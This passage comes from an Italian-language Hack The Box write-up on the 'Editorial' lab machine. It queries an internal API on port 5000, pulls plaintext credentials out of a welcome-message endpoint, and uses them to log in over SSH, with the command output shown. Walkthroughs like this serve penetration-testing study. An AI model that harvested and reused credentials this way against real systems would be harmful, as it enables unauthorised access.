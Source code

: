 ```bash
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```

Osservando questo file, sappiamo che la porta locale 5000 ha un endpoint API
proviamo ad effettuare una richiesta ad ogni endponit per vedere se riusciamo a scaricare come prime qualche file che può contenere informazioni interessanti.

L'endpoint `/api/latest/metadata/messages/authors` contiene un messaggio molto interessante.

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/editorial9.png)

lo scarichiamo e lo leggiamo, è un messaggio di benvenuto con delle credenziali per accedere ad un forum interno.

```bash
┌──(kali㉿kali)-[~/htb/editorial]
└─$ cat 7aae57cd-0763-489e-9e27-f8ce29a21348 | jq
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
```

Proviamo le credenziali trovate per accedere in ssh.

```bash
┌──(kali㉿kali)-[~/htb/editorial]
└─$ ssh dev@10.10.11.20
The authenticity of host '10.10.11.20 (10.10.11.20)' can't be established.
ED25519 key fingerprint is SHA256:YR+ibhVYSWNLe4xyiPA0g45F4p1pNAcQ7+xupfIR70Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.20' (ED25519) to the list of known hosts.
dev@10.10.11.20's password:
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Aug  8 09:46:39 AM UTC 2024

  System load:           0.08
  Usage of /:            61.3% of 6.35GB
  Memory usage:          14%
  Swap usage:            0%
  Processes:             226
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.20
  IPv6 address for eth0: dead:beef::250:56ff:fe94:b7aa


Expanded Security Maintenance for Applications is not enabled.

```